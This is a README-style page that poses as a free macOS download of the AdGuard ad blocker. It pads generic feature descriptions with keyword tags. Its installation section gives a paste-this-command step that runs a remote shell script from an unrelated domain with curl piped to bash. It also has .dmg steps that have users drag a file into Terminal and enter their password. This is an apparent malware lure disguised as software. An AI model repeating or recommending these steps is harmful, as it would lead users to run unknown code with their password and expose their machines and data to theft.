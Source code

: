 # AdGuard for Mac — Free Download for macOS

AdGuard is a powerful ad-blocking and privacy protection tool designed for macOS. Follow the instructions below to install AdGuard for free and enjoy a cleaner, safer browsing experience! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)]()

If the download button doesn’t work, follow the step-by-step terminal instructions below.

## 📦 How to Install AdGuard for macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with AdGuard

- 🛡️ **Ad Blocking**: Block intrusive ads, banners, and pop-ups for a seamless browsing experience.
- 🔒 **Privacy Protection**: Prevent trackers and analytics systems from collecting your data.
- 🚀 **Faster Browsing**: Improve page load times by eliminating unwanted ads and scripts.
- 🧑‍💻 **Custom Filters**: Create or import custom ad-blocking filters tailored to your needs.
- 🌙 **Dark Mode Support**: Enjoy a sleek interface that integrates beautifully with macOS Dark Mode.
- 🔧 **Parental Controls**: Restrict access to inappropriate content for a family-friendly browsing experience.

---

## About AdGuard

AdGuard is a leading ad-blocking solution designed to enhance your browsing experience on macOS. By leveraging advanced filtering technology, AdGuard removes intrusive advertisements, including banners, pop-ups, and video ads, ensuring a clean and distraction-free internet experience. Its lightweight design ensures minimal impact on system performance, making it an ideal choice for Mac users seeking both speed and efficiency. With AdGuard, you can browse confidently knowing that unwanted ads are eliminated before they even load.

Privacy is at the core of AdGuard’s mission. The software blocks trackers, cookies, and analytics tools that monitor your online behavior, safeguarding your personal information from third parties. By integrating seamlessly with macOS, AdGuard ensures that your data stays secure whether you’re browsing social media, shopping online, or streaming content. Its robust privacy protection features make it a must-have tool for anyone prioritizing online security.

AdGuard’s customization options set it apart from other ad blockers. Users can create or import custom filters to target specific types of ads or trackers, tailoring the software to their unique needs. Whether you’re a casual user or a power user, AdGuard’s intuitive interface makes it easy to configure settings and optimize your browsing experience. The software also supports multiple languages, ensuring accessibility for users worldwide.

For families, AdGuard offers powerful parental control features, allowing you to restrict access to inappropriate websites and content. This makes it an excellent choice for parents looking to create a safe online environment for their children. With regular updates and a dedicated support team, AdGuard ensures compatibility with the latest macOS versions and emerging online threats, keeping your browsing secure and up-to-date.

### Why Choose AdGuard?

AdGuard stands out for its combination of ad-blocking efficiency, privacy protection, and user-friendly design. Unlike browser-based ad blockers, AdGuard works at the system level, providing comprehensive protection across all browsers and apps. Its ability to block ads before they load not only enhances browsing speed but also reduces data usage, making it ideal for users with limited bandwidth. With a free version available for macOS, AdGuard offers premium features at no cost, making it accessible to everyone.

---

## 🖼 Preview

![AdGuard Dashboard](https://cdn.adguard.com/public/Adguard/Blog/Mac/2-6-0/DNS.png?%21=&mw=1360)
*AdGuard’s clean and intuitive dashboard for managing ad-blocking settings*

![Privacy Protection](https://cdn.adtidy.org/content/Kb/ad_blocker/safari/adguard-for-safari-extensions-checked.png)
*Configuring privacy protection settings in AdGuard*

![Custom Filters](https://cdn.adguard.com/public/Adguard/Blog/Mac/main_Mac.png?mw=1360)
*Creating custom filters for advanced ad-blocking control*

---

## 🔍 Tags

adguard free download, ad blocker mac, macos adblock, adguard install mac, free ad blocker, mac adblock software, adguard macos free, adguard free, adguard mac os, adguard download, free adguard download, adguard free mac, adguard mac, ad guard free, ad guard mac
